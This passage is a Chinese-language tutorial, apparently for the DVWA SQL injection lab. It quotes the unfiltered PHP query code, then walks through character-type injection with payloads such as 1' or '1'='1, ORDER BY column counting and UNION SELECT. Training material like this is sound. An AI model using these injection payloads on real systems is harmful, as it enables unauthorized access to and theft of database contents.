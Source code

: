 ```php
        // Feedback for end user
        echo "<pre>ID: {$id}<br />First name: {$first}<br />Surname: {$last}</pre>";
    }

    mysqli_close($GLOBALS["___mysqli_ston"]);
}

?>
```

### 分析：

由代码可知，通过`REQUEST`方式接受传递的参数id，再通过sql语句带入查询，并未设置任何过滤，因此可以进行sql注入利用。

### 判断是否存在注入，注入是字符型还是数字型

`输入1，查询成功：`

![KgwPW6.png](https://s2.ax1x.com/2019/10/28/KgwPW6.png)

`输入1'and '1' ='2，查询失败，返回结果为空：`

![KgwRt1.png](https://s2.ax1x.com/2019/10/28/KgwRt1.png)

`输入1' or '1'='1 页面正常，并返回更多信息，成功查询`

![Kg0wEd.png](https://s2.ax1x.com/2019/10/28/Kg0wEd.png)

**`判断存在的是字符型注入。`**

### 猜解SQL查询语句中的字段数

`输入1' or 1=1 order by 1 #，查询成功： #是注释作用`

![KgDOhR.png](https://s2.ax1x.com/2019/10/28/KgDOhR.png)

`输入1' or 1=1 order by 2 #，查询成功： #是注释作用`

![KgrhUH.png](https://s2.ax1x.com/2019/10/28/KgrhUH.png)

`输入1' or 1=1 order by 3 #，查询失败： #是注释作用`

![KgsUzt.png](https://s2.ax1x.com/2019/10/28/KgsUzt.png)

 `说明执行的SQL查询语句中只有两个字段，即这里的First name、Surname。`

### 确认显示的字段顺序

 `输入1' union select 1,2 #，查询成功： #是注释作用 `

![MQK7Of.png](https://s2.ax1x.com/2019/11/11/MQK7Of.png)

 说明执行的SQL语句为select First name,Surname from 表 where ID=’id’… 
